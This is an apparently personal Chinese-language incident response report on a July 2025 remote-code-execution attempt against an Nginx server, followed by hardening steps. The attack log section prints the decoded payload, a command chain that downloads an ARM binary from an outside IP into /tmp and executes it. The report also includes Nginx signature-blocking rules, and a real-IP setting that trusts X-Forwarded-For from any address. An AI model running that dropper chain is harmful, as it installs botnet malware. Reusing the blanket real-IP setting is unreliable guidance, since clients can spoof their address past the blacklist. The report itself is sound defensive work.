

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [服务器安全事件响应报告：恶意攻击分析与加固措施](#%E6%9C%8D%E5%8A%A1%E5%99%A8%E5%AE%89%E5%85%A8%E4%BA%8B%E4%BB%B6%E5%93%8D%E5%BA%94%E6%8A%A5%E5%91%8A%E6%81%B6%E6%84%8F%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E4%B8%8E%E5%8A%A0%E5%9B%BA%E6%8E%AA%E6%96%BD)
  - [事件概述](#%E4%BA%8B%E4%BB%B6%E6%A6%82%E8%BF%B0)
    - [攻击行为分析](#%E6%94%BB%E5%87%BB%E8%A1%8C%E4%B8%BA%E5%88%86%E6%9E%90)
      - [攻击日志记录](#%E6%94%BB%E5%87%BB%E6%97%A5%E5%BF%97%E8%AE%B0%E5%BD%95)
      - [URL 解码后的攻击命令](#url-%E8%A7%A3%E7%A0%81%E5%90%8E%E7%9A%84%E6%94%BB%E5%87%BB%E5%91%BD%E4%BB%A4)
      - [攻击技术分析](#%E6%94%BB%E5%87%BB%E6%8A%80%E6%9C%AF%E5%88%86%E6%9E%90)
    - [应急响应措施](#%E5%BA%94%E6%80%A5%E5%93%8D%E5%BA%94%E6%8E%AA%E6%96%BD)
      - [立即封禁攻击源](#%E7%AB%8B%E5%8D%B3%E5%B0%81%E7%A6%81%E6%94%BB%E5%87%BB%E6%BA%90)
      - [系统安全检查](#%E7%B3%BB%E7%BB%9F%E5%AE%89%E5%85%A8%E6%A3%80%E6%9F%A5)
    - [Nginx 安全加固](#nginx-%E5%AE%89%E5%85%A8%E5%8A%A0%E5%9B%BA)
      - [恶意请求拦截规则](#%E6%81%B6%E6%84%8F%E8%AF%B7%E6%B1%82%E6%8B%A6%E6%88%AA%E8%A7%84%E5%88%99)
      - [IP 黑名单系统](#ip-%E9%BB%91%E5%90%8D%E5%8D%95%E7%B3%BB%E7%BB%9F)
      - [验证配置](#%E9%AA%8C%E8%AF%81%E9%85%8D%E7%BD%AE)
    - [自动化防护体系](#%E8%87%AA%E5%8A%A8%E5%8C%96%E9%98%B2%E6%8A%A4%E4%BD%93%E7%B3%BB)
      - [自动更新 IP 黑名单](#%E8%87%AA%E5%8A%A8%E6%9B%B4%E6%96%B0-ip-%E9%BB%91%E5%90%8D%E5%8D%95)
      - [Fail2Ban 自动封禁](#fail2ban-%E8%87%AA%E5%8A%A8%E5%B0%81%E7%A6%81)
    - [系统状态监控方案](#%E7%B3%BB%E7%BB%9F%E7%8A%B6%E6%80%81%E7%9B%91%E6%8E%A7%E6%96%B9%E6%A1%88)
      - [关键监控命令](#%E5%85%B3%E9%94%AE%E7%9B%91%E6%8E%A7%E5%91%BD%E4%BB%A4)
      - [监控指标](#%E7%9B%91%E6%8E%A7%E6%8C%87%E6%A0%87)
    - [加固效果验证](#%E5%8A%A0%E5%9B%BA%E6%95%88%E6%9E%9C%E9%AA%8C%E8%AF%81)
      - [测试恶意请求拦截](#%E6%B5%8B%E8%AF%95%E6%81%B6%E6%84%8F%E8%AF%B7%E6%B1%82%E6%8B%A6%E6%88%AA)
      - [测试 IP 黑名单](#%E6%B5%8B%E8%AF%95-ip-%E9%BB%91%E5%90%8D%E5%8D%95)
    - [维护与审计计划](#%E7%BB%B4%E6%8A%A4%E4%B8%8E%E5%AE%A1%E8%AE%A1%E8%AE%A1%E5%88%92)
      - [日常维护任务](#%E6%97%A5%E5%B8%B8%E7%BB%B4%E6%8A%A4%E4%BB%BB%E5%8A%A1)
      - [安全审计计划](#%E5%AE%89%E5%85%A8%E5%AE%A1%E8%AE%A1%E8%AE%A1%E5%88%92)
    - [经验总结与改进](#%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93%E4%B8%8E%E6%94%B9%E8%BF%9B)
      - [经验总结](#%E7%BB%8F%E9%AA%8C%E6%80%BB%E7%BB%93)
      - [后续改进](#%E5%90%8E%E7%BB%AD%E6%94%B9%E8%BF%9B)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# 服务器安全事件响应报告：恶意攻击分析与加固措施

- **Last Updated:** July 31, 2025, 09:36 (UTC+8)
- **作者:** 张人大（Renda Zhang）

---

## 事件概述

**时间**：2025 年 7 月 31 日 02:03 (UTC+8)
**攻击源IP**：45.153.34.225
**受影响服务**：Nginx Web 服务器
**攻击类型**：远程代码执行尝试
**严重性**：高

### 攻击行为分析

#### 攻击日志记录

```log
45.153.34.225 - - [31/Jul/2025:02:03:24 +0800] "GET /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_M_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Bpkill%20-9%20bin.arm7%3Brm%20-rf%20build.armv7l%3Bwget%20http%3A%2F%2F107.189.27.205%2Fns%2Fbuild.armv7l%3Bchmod%20777%20build.armv7l%3B.%2Fbuild.armv7l%20nasdevice.armv7l%3Brm%20-rf%20build.armv7l HTTP/1.1" 301 178 "-" "curl/7.58.0"
```

#### URL 解码后的攻击命令

```bash
cd /tmp;
pkill -9 bin.arm7;
rm -rf build.armv7l;
wget http://107.189.27.205/ns/build.armv7l;
chmod 777 build.armv7l;
./build.armv7l nasdevice.armv7l;
rm -rf build.armv7l
```

#### 攻击技术分析

| 攻击阶段 | 技术手段 | 目的 |
|----------|----------|------|
| 1. 环境准备 | `cd /tmp` | 切换到可写目录 |
| 2. 终止进程 | `pkill -9 bin.arm7` | 终止可能的安全进程 |
| 3. 清理痕迹 | `rm -rf build.armv7l` | 删除旧版本恶意程序 |
| 4. 下载载荷 | `wget http://107.189.27.205/ns/build.armv7l` | 下载ARM架构恶意程序 |
| 5. 赋予权限 | `chmod 777 build.armv7l` | 使恶意程序可执行 |
| 6. 执行载荷 | `./build.armv7l nasdevice.armv7l` | 执行恶意程序 |
| 7. 清理痕迹 | `rm -rf build.armv7l` | 删除下载的恶意程序 |

**攻击特点**：

- 针对 ARM 架构设备（IoT / 嵌入式设备）
- 使用 `curl` 伪装请求
- 攻击参数包含特征字符串 `___S_O_S_T_R_E_A_M_MAX___`
- 恶意软件下载源：107.189.27.205

### 应急响应措施

#### 立即封禁攻击源

```bash
# 使用iptables封禁攻击IP
sudo iptables -A INPUT -s 45.153.34.225 -j DROP

# 验证封禁状态
sudo iptables -L -n | grep 45.153.34.225
```

#### 系统安全检查

```bash
# 检查/tmp目录
ls -al /tmp

# 检查恶意进程
ps aux | grep -E 'build.armv7l|nasdevice'

# 检查定时任务
crontab -l
ls -al /etc/crontab

# 检查历史命令
history | grep -E 'wget|curl|chmod|\./'

# 检查网络连接
ss -antp | grep ESTAB
lsof -i -P -n
```

**检查结果**：

- 未发现恶意文件（`build.armv7l`, `nasdevice.armv7l`）
- 无相关恶意进程
- 无异常定时任务
- 无异常网络连接

### Nginx 安全加固

#### 恶意请求拦截规则

**位置**：HTTP(80) 和 HTTPS(443) server 块中

**配置**：
```nginx
location ~* (device\.rsp|___S_O_S_T_R_E_A_M) {
    access_log /var/log/nginx/hack.log;
    deny all;
    return 444;
}
```

**拦截效果**：

- 记录到 `/var/log/nginx/hack.log`
- 直接关闭连接（不返回响应）

#### IP 黑名单系统

**全局配置** (`nginx.conf`):

```nginx
# 真实 IP 获取配置
set_real_ip_from 0.0.0.0/0;
real_ip_header X-Forwarded-For;
real_ip_recursive on;

# IP 黑名单映射
geo $blocked_ip {
    default 0;
    45.153.34.225 1;
    include /etc/nginx/ip-blacklist.conf;
}
map $blocked_ip $deny_access { 1 "block"; }

# 黑名单日志格式
log_format block_fmt '[$time_local] BLOCKED $remote_addr "$request"';
```

**服务端配置** (`rendazhang.conf`):

```nginx
# 在server块开头添加
if ($deny_access = "block") {
    return 444;
}
access_log /var/log/nginx/ip-blocked.log block_fmt if=$deny_access;
```

#### 验证配置

```bash
nginx -t && systemctl reload nginx
```

### 自动化防护体系

#### 自动更新 IP 黑名单

**脚本位置**：`/usr/local/bin/update-ip-blacklist.sh`

```bash
#!/bin/bash

# 下载已知恶意 IP 列表
curl -s https://lists.blocklist.de/lists/all.txt > /tmp/malicious-ips.txt

# 转换为 Nginx 格式
awk '{print $1 " 1;"}' /tmp/malicious-ips.txt > /etc/nginx/ip-blacklist.conf

# 重载 Nginx
nginx -t && systemctl reload nginx
```

**定时任务**：

```bash
# 每天凌晨 3 点开始运行
# Minute Hour DayOfMonth Month WeekDay
0 3 * * * /usr/local/bin/update-ip-blacklist.sh
```

#### Fail2Ban 自动封禁

```bash
# 安装 Fail2Ban
sudo apt install fail2ban

# 配置基础防护
sudo cp /etc/fail2ban/jail.conf /etc/fail2ban/jail.local
```

修改 Fail2Ban 配置  `/etc/fail2ban/jail.local` 并启用 Nginx 防护：

```ini
[nginx-http-auth]
enabled  = true

[nginx-limit-req]
enabled = true

[nginx-botsearch]
enabled = true
```

启动并启用 Fail2Ban:

```bash
sudo systemctl start fail2ban
sudo systemctl restart fail2ban
sudo systemctl enable fail2ban
sudo systemctl status fail2ban
```

查看封禁记录：

```bash
sudo fail2ban-client status nginx-http-auth
sudo fail2ban-client status nginx-limit-req
sudo fail2ban-client status nginx-botsearch
```

### 系统状态监控方案

#### 关键监控命令

```bash
# 实时监控拦截日志
tail -f /var/log/nginx/{hack,ip-blocked}.log

# 黑名单IP统计
grep 'BLOCKED' /var/log/nginx/ip-blocked.log | awk '{print $4}' | sort | uniq -c | sort -nr

# 恶意请求统计
awk '{print $1}' /var/log/nginx/hack.log | sort | uniq -c | sort -nr

# 文件系统监控
inotifywait -m /tmp -e create,modify
```

#### 监控指标

| 指标 | 监控频率 | 阈值 | 响应动作 |
|------|----------|------|----------|
| Nginx 拦截请求数 | 每小时 | >10 次 | 分析攻击源 |
| /tmp 目录新文件 | 实时 | 任何变化 | 检查文件内容 |
| CPU 异常使用率 | 每5分钟 | >80% | 检查进程 |
| 异常外连 | 每 30 分钟 | 任何非白名单 | 阻断连接 |

### 加固效果验证

#### 测试恶意请求拦截

```bash
# 测试特征请求
curl -I "http://localhost/device.rsp?opt=test"
curl -I "http://localhost/anypath?cmd=___S_O_S_T_R_E_A_M_TEST___"

# 验证日志
tail -n 2 /var/log/nginx/hack.log
```

#### 测试 IP 黑名单

```bash
# 添加测试IP
echo "127.0.0.1 1;" >> /etc/nginx/ip-blacklist.conf
nginx -t && systemctl reload nginx

# 测试黑名单IP
curl -I http://localhost --header "X-Forwarded-For: 127.0.0.1"

# 验证日志
tail -f /var/log/nginx/ip-blocked.log
```

### 维护与审计计划

#### 日常维护任务

| 任务 | 频率 | 操作 |
|------|------|------|
| 检查安全日志 | 每日 | `grep -i 'blocked' /var/log/nginx/*.log` |
| 更新黑名单 | 自动每日 | 查看cron日志 |
| 系统补丁更新 | 每周 | `apt update && apt upgrade` |
| 配置备份 | 每日 | `tar -czf /backup/nginx-$(date +%F).tar.gz /etc/nginx` |

#### 安全审计计划

1. **每月**：
   - 审查 Nginx 访问日志
   - 检查 iptables 规则有效性
   - 验证 Fail2Ban 封禁记录
2. **每季度**：
   - 进行漏洞扫描
   - 审计所有 cron 任务
   - 审查所有系统账户
3. **每年**：
   - 进行渗透测试
   - 更新 SSL 证书
   - 审查所有安全策略

### 经验总结与改进

#### 经验总结

1. **攻击检测**：Nginx访问日志是检测异常请求的第一道防线
2. **多层防护**：网络层(iptables)+应用层(Nginx)+日志层(Fail2Ban)的组合防护效果显著
3. **自动化响应**：自动更新黑名单系统大大减少了人工干预
4. **ARM设备风险**：IoT/嵌入式设备是攻击重点目标

#### 后续改进



**具体改进措施**：

1. 部署 ModSecurity Web 应用防火墙
2. 实现服务容器化隔离（Docker）
3. 安装主机入侵检测系统（OSSEC）
4. 建立 ELK 日志分析系统
5. 实施 Prometheus + Grafana 监控体系
